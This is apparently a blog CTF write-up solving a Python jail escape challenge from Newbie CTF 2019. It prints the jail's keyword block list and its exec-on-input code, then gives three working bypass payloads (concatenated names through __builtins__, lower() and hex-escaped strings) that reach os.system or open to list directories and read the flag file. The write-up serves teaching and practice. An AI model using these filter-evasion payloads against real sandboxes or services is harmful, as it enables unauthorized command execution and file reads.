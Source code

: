 ```yaml
---
title: "How to Python jail escape (Newbie CTF 2019) - DSPYT"
date: "May 1, 2022"
excerpt: "Python jail escape: a challenge with one of the lowest points in the Newbie CTF 2019 which we solve in this article. We use built-in methods."
cover_image: "/images/posts/jailescape/image-e1658960653261.webp"
tags: ["Python", "ctf", "ethical hacking"]
---
```


Python jail escape: a challenge with one of the lowest points in the Newbie CTF 2019 which we solve in this article. It is generally a bad idea to allow users to input commands that will be executed since there is a high chance that they could input something that would allow them to gain elevated permissions or access sensitive data. However, people often add condition checks in an attempt to prevent this from happening, even though it is rarely effective.

The jail is basically a set of python code that is executed on the python process when the user executes certain commands, in this case entering specific lines of text. This is possible since Python allows passing parameters to the application. In this particular case, the script only checks if the command passed is not banned.

![Python jail Escape](/images/posts/jailescape/image-2.webp)

## Python Jail escape: Code

We connect to the virtual environment. Next the following text appears:

```bash
Hi! Welcome to pyjail!
========================================================================
#! /usr/bin/python3
#-*- coding:utf-8 -*-
def main():
print(“Hi! Welcome to pyjail!”)
print(“========================================================================”)
print(open(__file__).read())
print(“========================================================================”)
print(“RUN”)
text = input(‘>>> ‘)
for keyword in [‘eval’, ‘exec’, ‘import’, ‘open’, ‘os’, ‘read’, ‘system’, ‘write’]:
if keyword in text:
print(“No!!!”)
return;
else:
exec(text)
if __name__ == “__main__”:
main()
========================================================================
RUN
```

The source code for the program is available, so we can figure out what needs to be done in order to beat the condition checks. The functions that could be used to get the flag are not allowed :'eval’, ‘exec’, ‘import’, ‘open’, ‘os’, ‘read’, ‘system’, ‘write’. However, we could utilize the concatenation of strings to evade the restriction as well as using [Built-in functions](https://docs.python.org/3/library/functions.html).

In order to understand how Python evaluates statements, let’s take a look at an example. If you write “import os” in a Python script, Python will retrieve a function object called “import” and pass it the input “os”. This will return a class called “os” with the relevant methods. Besides, you can use built-in objects in Python by using the **builtins** module. This module is not typically accessed directly by most applications. Nevertheless, it can be useful for modules that provide objects with the same name as a built-in value.

```bash
>>> print(getattr(getattr(globals()['__builtins__'], '__im'+'port__')('o'+'s'), 'sys'+'tem')('ls .'))
bin
boot
dev
etc
home
lib
lib32
lib64
libx32
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
0
>>> print(getattr(getattr(globals()[‘__builtins__’], ‘__im’+’port__’)(‘o’+’s’), ‘sys’+’tem’)(‘cat home/python_jail/flag’))

KorNewbie{H311oh0w@r3_y0u_d0lng?}
```

Another solution to the Capture the Flag challenge is to use lower() string method:

```bash
>>>__builtins__.__dict__[‘__IMPORT__’.lower()](‘OS’.lower()).__dict__[‘SYSTEM’.lower()](‘cat /home/python_jail/flag’)
```

We could also encode the strings to display the hidden key:

```bash
>>> print(getattr(getattr(getattr(main, ‘__globals__’)[‘__builtins__’], ‘\x6f\x70\x65\x6e’)(‘/home/python_jail/flag’, ‘rb’), ‘\x72\x65\x61\x64’)())
b’\xef\xbb\xbfKorNewbie{H311o_h0w_@r3_y0u_d0lng?}
```

## Related Posts

- [Simple Ceramic Data Model App and Unstoppable Domains](https://dspyt.com/simple-app-with-ceramic-data-model-and-unstoppable-domains)
- [Simple QR code generator on AWS with Flask](https://dspyt.com/simple-qr-code-generator-on-aws-with-flask)
- [How to implement asyncio python tutorial](https://dspyt.com/simple-asynchronous-python-webscraper-tutorial)
- [How to generate parsiq wallet triggers for CryptoPunks](https://dspyt.com/generating-fast-and-easy-parsiq-triggers-for-cryptopunks)
- [Guide to Marhaba Decentralized Financial Platform](https://dspyt.com/mrhb-defi-great-technologies-and-functionalities)
